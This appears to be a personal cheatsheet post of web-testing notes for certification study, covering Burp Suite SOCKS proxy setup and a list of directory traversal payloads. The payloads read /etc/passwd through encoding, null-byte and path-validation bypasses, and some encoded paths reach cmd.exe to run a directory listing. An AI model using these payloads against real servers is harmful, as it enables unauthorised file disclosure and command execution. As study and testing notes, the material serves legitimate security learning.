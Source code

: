 ```yaml
---
layout: post
title: Web Notes
date: 2024-08-01
tags: [OSWE, Web, Cheatsheet]
---
```


# Web

```
References:
https://github.com/DingyShark/BurpSuiteCertifiedPractitioner
https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study
https://blog.gm7.org/ <- legend
```

### Setting Up SOCKS Proxy in Burp Suite

1.  In **Burp Suite**, go to **Proxy → Proxy settings**.

2.  In the settings window, select **User** tab and go to **Network → Connections**.

3.  In the **SOCKS** proxy section, enable **"Override options for this project only"**.

4.  Fill in the proxy information:

    ```bash
    SOCKS proxy host: 127.0.0.1
    SOCKS proxy port: 9050
    ```

5.  Check **"Use SOCKS proxy"**.

### Directory Traversal

```bash
# Basic
/image?filename=/etc/passwd
/image?filename=..././..././..././etc/passwd

# Double URL-encode ../../../etc/passwd (use CyberChef)
%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c../winnt/system32/cmd.exe?/c+dir+c:\
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%77%69%6e%6e%74%2f%73%79%73%74%65%6d%33%32%2f%63%6d%64%2e%65%78%65%3f%2f%63%2b%64%69%72%2b%63%3a%5c

# File path traversal, validation of start of path
/image?filename=/var/www/images/../../../../etc/passwd

# File path traversal, validation of file extension with null byte bypass
../../../../../../etc/passwd%00.jpg
```
